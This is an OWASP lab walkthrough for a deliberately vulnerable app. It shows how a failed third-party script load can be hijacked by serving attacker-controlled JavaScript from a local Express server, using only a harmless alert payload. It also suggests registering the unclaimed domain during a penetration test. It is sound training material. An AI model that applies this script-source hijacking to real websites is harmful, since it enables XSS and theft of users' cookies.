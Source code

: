 # Include Files From Untrusted Sources (JS)

## Running the app on Docker

```
$ sudo docker pull blabla1337/owasp-skf-lab:untrusted-sources-js
```

```
$ sudo docker run -ti -p 127.0.0.1:5000:5000 blabla1337/owasp-skf-lab:untrusted-sources-js
```

{% hint style="success" %}
Now that the app is running let's go hacking!
{% endhint %}

## Reconnaissance

#### Step1

When including third-party functionality, such as a web widget, library, or other source of functionality, the software must effectively trust that functionality. Without sufficient protection mechanisms, the functionality could be malicious in nature (either by coming from an untrusted source, being spoofed, or being modified in transit from a trusted source). The functionality might also contain its own weaknesses, or grant access to additional functionality and state information that should be kept private to the base system, such as system state information, sensitive application data, or the DOM of a web application.

This might lead to many different consequences depending on the included functionality, but some examples include injection of malware, information exposure by granting excessive privileges or permissions to the untrusted functionality, DOM-based XSS vulnerabilities, stealing user's cookies, or open redirect to malware

First, let's check the application to see if there are any sources being loaded in the app that return a 404.

![](https://raw.githubusercontent.com/blabla1337/skf-labs/master/.gitbook/assets/nodejs/Untrusted-sources/1.png)

When inspecting the network tab we see that the application fails to load a JS file to the URL

```
https://localhost:8081/script-provider/javascript.js
```

_note: in a penetration test we would now see if the domain that is used to grab the js source file from is free for us to register_

## Exploitation

#### Step1

Now, in order to leverage a successfull XSS attack we need to set up our own local server on port 8081
that serves the our malicious javascript. You could achieve this in many diferent ways, let's use nodeJs this time:

```javascript
const express = require("express");
const app = express();

app.use(express.static(__dirname));
app.use(express.urlencoded({ extended: true }));

app.get("/:path", (req, res) => {
  res.sendFile("/script_provider/" + req.params.path);
});

const port = process.env.PORT || 8081;

app.listen(port, () => console.log(`Listening on port ${port}...!!!`));
```

#### Step2

We ofcourse also need to set the right path where to serve the file from:

```text
./script_provider/javascript.js
```

#### Step3

The content of the JS file that we use to deliver the malicious XSS from looks no more basic than
this:

```text
alert("evil payload");
```

#### Step4

Now it is time to start our web server.

```text
npm install express
node script_provider.js
```

#### Step5

We visit the target application where we now find our 'alert' that we coded in our javascript.js file

![](https://raw.githubusercontent.com/blabla1337/skf-labs/master/.gitbook/assets/nodejs/Untrusted-sources/2.png)

## Additional sources

{% embed url="https://book.hacktricks.xyz/pentesting-web/xssi-cross-site-script-inclusion" %}
